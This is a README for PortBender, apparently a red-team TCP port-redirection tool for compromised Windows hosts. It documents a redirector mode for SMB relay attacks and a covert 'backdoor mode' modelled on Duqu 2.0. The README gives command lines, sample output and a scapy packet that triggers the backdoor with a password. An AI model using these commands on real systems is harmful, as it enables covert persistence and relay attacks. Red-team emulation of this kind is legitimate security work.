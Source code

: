 # PortBender

## Overview

a PE adaptation of the original PortBender created by Praetorian Inc for Cobalt Strike C2 [1]. It is a TCP port redirection utility that allows a red team operator to redirect inbound traffic destined for one TCP port (e.g., 445/TCP) to another TCP port (e.g., 8445/TCP). The tool also allows operators to simulate a backdoor/persistence mechanism leveraged within the "PortServ.sys" capability used by the Duqu 2.0 threat actor. 

##  Design

PortBender leverages the WinDivert library to intercept network traffic using the Windows Filtering Platform (WFP). The design of PortBender is heavily influenced by the DivertTCPConn utility [2] which also leverages the WinDivert library [3].

```
                              +-----------------+
                              |   PortBender    |
                     +------->|                 |--------+
                     |        |  WinDivert.dll  |        |
                     |        +-----------------+        |
                     |                                   | (3) re-injected
                     | (2a) matching packet              |     packet
                     |                                   |
                     |                                   |
 [user mode]         |                                   |
 ....................|...................................|...................
 [kernel mode]       |                                   |
                     |                                   |
                     |                                   |
              +---------------+                          +----------------->
  (1) packet  |               | (2b) non-matching packet
 ------------>| WinDivert.sys |-------------------------------------------->
              |               |
              +---------------+
```

## Usage

PortBender has two modes of operation. The first is "redirector mode," and the second is "backdoor mode." In "redirector mode," any connection to a targeted destination port (e.g., 445/TCP) is redirected to an alternative port (e.g., 8445/TCP). In "backdoor mode," we only redirect traffic if an attacker sends a specially formatted TCP packet to a target port (e.g., 443/TCP). PortBender then adds that client IP address to a list of backdoor clients and redirects all traffic to that target port to an alternative port (e.g., 3389/TCP). An operator can leverage this mechanism to emulate the persistence technique used by the Duqu 2.0 threat actor when compromising Kaspersky.

To execute PortBender we must first upload the WinDivert32.sys or WinDivert64.sys binary and WinDivert.dll to the target host depending on the operating system architecture. The help menu for PortBender with the example usage is shown below:

```console
C:\> PortBender.exe
Redirect Usage: PortBender redirect SrcPort DstPort
Backdoor Usage: PortBender backdoor SrcPort DstPort password
Example:
        PortBender redirect 445 8445
        PortBender backdoor 443 3389 portbender.antihacker
```

## Example Usage

### Redirect mode

For example, we may wish to execute PortBender in redirector mode to perform an SMB relay attack from a compromised Windows system.  To facilitate this, we can instruct PortBender to redirect all traffic to 445/TCP to an alternative port 8445/TCP running an attacker SMB service. In this example, we run the command "PortBender redirect 445 8445" to accomplish this.

```console
C:\> PortBender.exe redirect 445 8445
 _______                        __      _______                             __
/       \                      /  |    /       \                           /  |
$$$$$$$  | ______    ______   _$$ |_   $$$$$$$  |  ______   _______    ____$$ |  ______    ______
$$ |__$$ |/      \  /      \ / $$   |  $$ |__$$ | /      \ /       \  /    $$ | /      \  /      \
$$    $$//$$$$$$  |/$$$$$$  |$$$$$$/   $$    $$< /$$$$$$  |$$$$$$$  |/$$$$$$$ |/$$$$$$  |/$$$$$$  |
$$$$$$$/ $$ |  $$ |$$ |  $$/   $$ | __ $$$$$$$  |$$    $$ |$$ |  $$ |$$ |  $$ |$$    $$ |$$ |  $$/
$$ |     $$ \__$$ |$$ |        $$ |/  |$$ |__$$ |$$$$$$$$/ $$ |  $$ |$$ \__$$ |$$$$$$$$/ $$ |
$$ |     $$    $$/ $$ |        $$  $$/ $$    $$/ $$       |$$ |  $$ |$$    $$ |$$       |$$ |
$$/       $$$$$$/  $$/          $$$$/  $$$$$$$/   $$$$$$$/ $$/   $$/  $$$$$$$/  $$$$$$$/ $$/

Initializing PortBender in redirector mode
Configuring redirection of connections targeting 445/TCP to 8445/TCP
New connection from 10.10.10.11:54646 to 10.10.10.10:445
```

### Backdoor mode

In this example, we want to deploy the covert persistence mechanism on a compromised Internet-facing IIS webserver. Here we run the "PortBender backdoor 443 3389 portbender.antihacker" to instruct the backdoor service to redirect any connections to 443/TCP to 3389/TCP on the compromised host from any connected IP address by providing a crafted TCP request with the payload "portbender.antihacker".

```console
C:\> PortBender.exe backdoor 443 3389 portbender.antihacker
 _______                        __      _______                             __
/       \                      /  |    /       \                           /  |
$$$$$$$  | ______    ______   _$$ |_   $$$$$$$  |  ______   _______    ____$$ |  ______    ______
$$ |__$$ |/      \  /      \ / $$   |  $$ |__$$ | /      \ /       \  /    $$ | /      \  /      \
$$    $$//$$$$$$  |/$$$$$$  |$$$$$$/   $$    $$< /$$$$$$  |$$$$$$$  |/$$$$$$$ |/$$$$$$  |/$$$$$$  |
$$$$$$$/ $$ |  $$ |$$ |  $$/   $$ | __ $$$$$$$  |$$    $$ |$$ |  $$ |$$ |  $$ |$$    $$ |$$ |  $$/
$$ |     $$ \__$$ |$$ |        $$ |/  |$$ |__$$ |$$$$$$$$/ $$ |  $$ |$$ \__$$ |$$$$$$$$/ $$ |
$$ |     $$    $$/ $$ |        $$  $$/ $$    $$/ $$       |$$ |  $$ |$$    $$ |$$       |$$ |
$$/       $$$$$$/  $$/          $$$$/  $$$$$$$/   $$$$$$$/ $$/   $$/  $$$$$$$/  $$$$$$$/ $$/

Initializing PortBender in backdoor mode
Configuring redirection of connections targeting 443/TCP to 3389/TCP
Client 10.10.10.11 connected to the server
New connection from 10.10.10.11:51234 to 10.10.10.10:443
```

To connect to or disconnect from the backdoor server, we can send the following TCP request using scapy

```console
$ sudo scapy
>>> send(IP(dst="10.10.10.10") / TCP(sport=51337,dport=443,flags="SR",seq=1000) / (bytes(b"portbender.antihacker")))
```

## Acknowledgements

* Praetorian for his work on the original PortBender [1]
* Arno0x0x for his work on DivertTCPConn [2]
* Basil00 for his work on WinDivert [3]

## References

[1] https://github.com/praetorian-inc/PortBender/tree/main \
[2] https://github.com/Arno0x/DivertTCPconn \
[3] https://github.com/basil00/Divert
